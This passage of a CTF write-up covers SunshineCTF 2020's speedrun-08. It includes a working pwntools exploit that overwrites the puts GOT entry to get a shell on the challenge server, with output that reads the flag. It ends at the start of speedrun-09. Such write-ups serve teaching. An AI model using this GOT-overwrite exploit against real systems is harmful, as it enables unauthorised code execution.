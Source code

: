 `main` is basically just a _write-what-where_, i.e., you can write any 64-bit
value you like in any RW segment.  And, well, the GOT (Global Offset Table)
`puts` entry is an easy target, just replace with `win` and get a shell when
`puts("hi")` is called.

Our write is relative to `target` (a global variable), so just subtract the
`target` address from the `puts` address and divide by 8 to compute the
_where_.  The _what_ is just `win`.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_08')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30008)

p.sendline(str((binary.got.puts - binary.sym.target) // 8))  
p.sendline(str(binary.sym.win))  
p.interactive()  
```

Output:

```bash  
# ./exploit_08.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-08/chall_08'  
   Arch:     amd64-64-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30008: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_08) gid=1000(chall_08) groups=1000(chall_08)  
$ ls -l  
total 12  
-rwxr-xr-x 1 root root     6816 Nov  7 07:49 chall_08  
-rw-r----- 1 root chall_08   30 Nov  7 08:51 flag.txt  
$ cat flag.txt  
sun{fiction-fa1a28a3ce2fdd96}  
```

## speedrun-09

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```
